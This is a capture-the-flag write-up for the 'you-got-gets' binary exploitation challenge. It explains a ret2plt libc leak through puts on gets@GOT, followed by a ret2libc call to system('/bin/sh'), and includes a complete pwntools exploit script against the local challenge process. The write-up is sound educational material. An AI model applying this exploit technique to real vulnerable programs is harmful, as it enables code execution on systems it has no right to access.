





# 『you-got-gets』

Because this event was ended so i try to solve local. 

- [main](./source/main)

# 『The challenge』

No source code, only compiler file. so lets decompile and checkfile. Also we have given libc too to compile using it

# 『Highlight vulnerability and parts of interesting』

So here are are the interesting part of this challenge



and the security of this file:



Because there is no pie (to change our program like the register) so we can do ret2plt + ret2lib do. Here are the explanation:
[ironstone](https://ir0nstone.gitbook.io/notes/binexp/stack/aslr/ret2plt-aslr-bypass)

From this you can search the gadget (why gadget? to regist our program and leak of what we need). Before we leak, we must know what function that we leak:



Perfect, there is gets and puts. After that we can search the rdi and ret gadget tho. Here:


How you can search it? using these: `ROPgadget --binary:<name_binary> | grep "<what you need>"`

After you get rdi and the ret, you can leak gets first like this:

```py
from pwn import *

elf = context.binary = ELF('./main_patched')
p = process()
libc = ELF('./libc.so.6')

rdi = p64(0x40117a)
ret = p64(0x40101a)

offset = 40

payload = flat(
    'A'*offset,
    rdi, elf.got['gets'],
    elf.plt['puts'], elf.sym['main']
)
p.sendlineafter(b'gets\n', payload)
#leak = u64(p.recv(6).ljust(8, b'\x00'))
leak = u64(p.recvline()[:-1].ljust(8, b'\x00'))
log.success(f'leak: {hex(leak)}')
```

the result:



And you can use these to get the leak actually: [ian - ret2plt](https://ian.nl/blog/ret2plt-advanced-aslr-bypass)

# 『Solving Challenge』
> solve by Lylera

After you get the leak, you can do the ret2lib to find the shell by yourself. Here the full script:

```py
from pwn import *

elf = context.binary = ELF('./main_patched')
p = process()
rop = ROP(elf)
libc = ELF('./libc.so.6')

#this is the manual
#rdi = p64(0x40117a)
#ret = p64(0x40101a)

# This is the way if you want to find automatic gadget you need
rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]

offset = 40

payload = flat(
    'A'*offset,
    rdi, elf.got['gets'],
    elf.plt['puts'], elf.sym['main']
)

p.sendlineafter(b'gets\n', payload)

#leak = u64(p.recv(6).ljust(8, b'\x00'))
leak = u64(p.recvline()[:-1].ljust(8, b'\x00'))
log.success(f'leak: {hex(leak)}')

libc.address = leak - libc.symbols['gets']
log.success('libc: %#x', libc.address)

payload_2 = flat(
    'A'*offset,
    rdi, next(libc.search(b'/bin/sh')),
    ret, libc.sym['system']
    #0x0
)

p.clean()
p.sendline(payload_2)
p.interactive()

```

If you take a look, why i use `rop.find_gadget`? to make easy by yourself. You can read the documentation here: [find_gadget - pwntools](https://docs.pwntools.com/en/stable/rop/rop.html#pwnlib.rop.rop.ROP.find_gadget)

# 『Flag』

the result:



# 『other』

- [chall](./source)
- [solver.py](./source/solver.py)
- [Documentation of find gadget automatic](https://docs.pwntools.com/en/stable/rop/rop.html#pwnlib.rop.rop.ROP.find_gadget)
- [Source 1: Ironst0ne](https://ir0nstone.gitbook.io/notes/binexp/stack/aslr/ret2plt-aslr-bypass)
- [Source 2: ian](https://ian.nl/blog/ret2plt-advanced-aslr-bypass)